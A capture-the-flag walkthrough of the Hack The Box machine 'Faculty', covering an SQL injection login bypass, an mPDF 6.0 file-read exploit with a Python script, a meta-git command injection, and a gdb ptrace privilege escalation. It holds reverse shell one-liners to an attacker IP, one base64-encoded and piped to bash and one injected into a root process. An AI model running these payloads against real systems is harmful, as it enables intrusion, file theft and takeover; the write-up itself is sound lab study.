

8 minutes
Faculty

Initial Recon
Nmap
Starting with a full tcp port scan using nmap:
$ nmap -p- -A -vvv -oN nmap/all-tcp.txt 10.10.11.169
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-18 20:17 EEST
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:17
Completed NSE at 20:17, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:17
Completed NSE at 20:17, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:17
Completed NSE at 20:17, 0.00s elapsed
Initiating Ping Scan at 20:17
Scanning 10.10.11.169 [2 ports]
Completed Ping Scan at 20:17, 0.14s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:17
Completed Parallel DNS resolution of 1 host. at 20:17, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 20:17
Scanning 10.10.11.169 [65535 ports]
Discovered open port 80/tcp on 10.10.11.169
Discovered open port 22/tcp on 10.10.11.169
Completed Connect Scan at 20:43, 1568.84s elapsed (65535 total ports)
Initiating Service scan at 20:43
Scanning 2 services on 10.10.11.169
Completed Service scan at 20:43, 6.58s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.169.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:43
Completed NSE at 20:43, 3.94s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:43
Completed NSE at 20:43, 0.62s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:43
Completed NSE at 20:43, 0.00s elapsed
Nmap scan report for 10.10.11.169
Host is up, received syn-ack (0.14s latency).
Scanned at 2022-10-18 20:17:22 EEST for 1580s
Not shown: 65533 closed tcp ports (conn-refused)
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 e9418ce5544d6f14987616e7292d0216 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzpbkoBfa0UKxT+Giw4wE1jz82gGRpuANEdRt+D6gp6hDmrcaODUiU/N+4nX08jcFBk103cLwU8VisxyRu3wHMTHXaYx2WMZXPtb8clv3Hrt+q2m4eL+DBJMkHO10qCx1IwfYcNyJA3CNCj88X8RgWIREalYWyNHeQFzAHZx4SSrCP9aW5QKqAYVAAS4Za0pts4HVYlfuOrxFgO/Z3FL3xynYeyLrFM+iEx0cMl9rIYWG8NzqVnBe180u+7d/y/kcsZU6MkBMmqWQlGA6o4srVx73AqbUDChkv8glvq0ZbD1JYmACuMCdn/GFI8lRlKaw1BaYeuP0l6qgbb65ghdECYEXC3iycPkR77D6gMbIbg4F9wvzD9AF//aCR+6t8F29DyP/mh1J8a+yiUHY2HJJaDvB5vQLg5Y++9yNEDmxlGFQTdJm/n7YhP2Qj+lkfgsERAO9pfIWGCCWaXl6fddUG4gp1bHLZkek+exgsimU7hApGFrJCtYPkf78xC3pvxx0=
| 256 4375103ecb78e9520eebcf7ffdf66d3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDH8WAd+YlbEo4Fpz3+UaOYyCJGFa/E29JORgMAIOXVlGUpvMgQqiaqDMXtbt/G03rGEI9h8dpFAmswN1LJ8uig=
| 256 c11caf762b56e8b3b88ae969737be6f5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINSCwKublVScg9d/3Tc/NAh0n9XH5lE9SBfl2dl+v6F+
80/tcp open http syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 20:43
Completed NSE at 20:43, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 20:43
Completed NSE at 20:43, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 20:43
Completed NSE at 20:43, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1580.64 seconds
I can see from the above results 2 open ports 80 and 22.
Inspecting Web Page
Inspecting the webpage on port 80, it redirects me to faculty.htb so I’ll add that to my /etc/hosts file.
A login page was the first page that appeared to us.
Bypassing Login Using SQLI
The first thing I tried was a simple sql injection: ‘or ‘1’=‘1 and it worked.
Getting The Admin Panel
After inspecting the source code of this single page, I saw stylesheet link pointing to admin directory, so I tried to navigate to this directory, and I got the admin panel.
Exporting PDFs
After navigating through the pages I found that I can export some data as pdf, like the course list and subject list, so I’ll try to export them and see if I can get more information from these pdfs.
By looking at the URL, it seems that they are using mpdf to generate these pdfs.
To get more information about which version is used I can download the pdf and use exiftool on it to see if there is an entry for the version or other useful information.
Using exiftool:
$ exiftool OKTLw2f4x5ZgiEUChnypRQ0tWb.pdf
ExifTool Version Number : 12.44
File Name : OKTLw2f4x5ZgiEUChnypRQ0tWb.pdf
Directory : .
File Size : 1745 bytes
File Modification Date/Time : 2022:10:18 21:30:50+03:00
File Access Date/Time : 2022:10:18 21:30:50+03:00
File Inode Change Date/Time : 2022:10:18 21:30:50+03:00
File Permissions : -rw-r--r--
File Type : PDF
File Type Extension : pdf
MIME Type : application/pdf
PDF Version : 1.4
Linearized : No
Page Count : 1
Page Layout : OneColumn
Producer : mPDF 6.0
Create Date : 2022:10:18 19:27:39+01:00
Modify Date : 2022:10:18 19:27:39+01:00
I can see that the version used is mPDF 6.0 so now I can search specifically for exploits of this version if they exist.
Understanding How Data Is Sent And Processed To Generate PDFs
First I need to understand how data is processed to generate these pdf files, so I’ll intercept the export pdf request using Burp Suite.
Looks like /admin/download.php expects a POST request having the content of the pdf file to generate in the body of this request URL encoded 2 times then Base64 encoded.
This opens for me a new attack surface, because now I can try to inject our payloads after encoding it and let mpdf 6.0 process it.
Locating MPDF LFI Exploit
After searching a little bit about mpdf 6.0 exploits, I saw this issue on github. I also found this blog talking about a very similar approach to the vulnerability.
Exploiting the vulnerability
A user can include files by injecting html code into a pdf file and thus read arbitrary files from the server, and mpdf 6.0 was affected by that. In order to read files, I need to download the pdf and open it with a pdf viewer to be able to click on the annotation marker and read the file’s content.
This is the payload I’ll use:
Payload: <annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
Base64 encoded: PGFubm90YXRpb24lMmJmaWxlJTI1M2QiL2V0Yy9wYXNzd2QiJTJiY29udGVudCUyNTNkIi9ldGMvcGFzc3dkIiUyYiUyYmljb24lMjUzZCJHcmFwaCIlMmJ0aXRsZSUyNTNkIkF0dGFjaGVkJTJiRmlsZSUyNTNhJTJiL2V0Yy9wYXNzd2QiJTJicG9zLXglMjUzZCIxOTUiJTJiLz4=
Got the pdf name, and since I already saw the path to get the pdf I can navigate to it.
The pdf looks empty and this because I opened it using firefox, so the annotation mark will not appear, that’s why I need to download it and open it with a proper pdf viewer. (I’ll use kali’s default pdf viewer Atril Document Viewer)
Upon clicking the annotation, a new window will popup showing the contents of the file.

I wrote a python3 script that will automate all this work otherwise it will be painfull to download every pdf manually and then open it to read the contents.
import sys
import requests
import urllib.parse
import base64
import io
import PyPDF2
if len(sys.argv) == 1:
print("Please provide a filename as argument")
exit(0)
fileToRead = sys.argv[1]
getPdfURL = "http://faculty.htb/admin/download.php"
downloadPdfURL = "http://faculty.htb/mpdf/tmp/"
payload = '<annotation file="{}" content="{}" icon="Graph" title="Attached File: {}" pos-x="195" />'.format(fileToRead,fileToRead,fileToRead)
payload = urllib.parse.quote(payload)
payload = urllib.parse.quote(payload)
payload = base64.b64encode(payload.encode('ascii')).decode()
print("[!] Base64 encoded payload: {}\n".format(payload))
headers = {
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'
}
pdfName = requests.post(getPdfURL, data="pdf={}".format(payload), headers=headers).text.strip()
print("[+] Got filename: {}\n".format(pdfName))
pdfContent = requests.get(downloadPdfURL + pdfName).content
pdf = PyPDF2.PdfReader(io.BytesIO(pdfContent))
catalog = pdf.trailer['/Root']
# https://www.bitsgalore.org/2013/01/09/what-do-we-mean-embedded-files-pdf
print("[+] Reading {}:\n\n".format(fileToRead), pdf.getPage(0)['/Annots'][0].getObject()['/FS']['/EF']['/F'].getData().decode())
Reading Database Credentials
The first thing I’ll do is to look for the main application code like index.php to see if I can find the database configuration file to get some credentials.
I know from the /etc/passwd file read before that there are 2 users on the box gbyolo and developer (They have their own home directory and /bin/bash as login shell).
I can try to SSH to these users using the password got from reading db_connect.php because people usually reuse passwords everywhere.
And it worked using gbyolo as username.
Escalating From User gbyolo To developer
If I run sudo -l I get the following result:
User gbyolo can run meta-git as developer, howerver this executable is inside /usr/local/bin which means that it was installed manually (wasn’t installed using a package manager like apt for example) and there is a big chance that it is out of date and could have some vulnerabilities.
Searching a little bit on google about meta-git and some possible exploits, I found this bug report on HackerOne which affects every version of meta-git according to snyk.
I can get a reverse shell now as user developer.
sudo -u developer /usr/local/bin/meta-git clone 'sss||echo YmFzaCAtaT4mIC9kZXYvdGNwLzEwLjEwLjE2LjU5Lzg5ODkgMD4mMQo= | base64 -d | bash'
Howerver I need to be first in a directory writable by developer user, so I will navigate to /tmp/.
I will get a fully interactive shell using python:
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ [ctrl-z]
$ stty raw -echo; fg
[then press enter]
Post Enumeration
bash-5.0$ id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
bash-5.0$ find / -group debug 2>/dev/null
/usr/bin/gdb
bash-5.0$ ls -la /usr/bin/gdb
-rwxr-x--- 1 root debug 8440200 Dec 8 2021 /usr/bin/gdb
User developer is part of debug group that owns /usr/bin/gdb and can run it.
And if I check linux capabilities for this binary using getcap, I can see that it has cap_sys_ptrace capability, which means that the current user can attach to other processes and trace their system calls.
bash-5.0$ getcap /usr/bin/gdb
/usr/bin/gdb = cap_sys_ptrace+ep
Getting root
I can abuse this to attach to root running processes and call a reverse shell back to me.
This can be done with any process by injecting a compiled reverse shell into its memory, howerver if the process is running python3 it becomes easier, because I can call the build in python3 system function and pass a reverse shell to it directly.
Among the running processes I will choose this python3 process:
bash-5.0$ ps aux | grep root
...
root 731 0.0 0.9 26896 18204 ? Ss 13:15 0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
...
Then I will debug it using gdb and inject my malicious code:
$ gdb -p 731
...
(gdb) call (void)system("/bin/bash -c 'bash -i>& /dev/tcp/10.10.16.59/8988 0>&1'")
...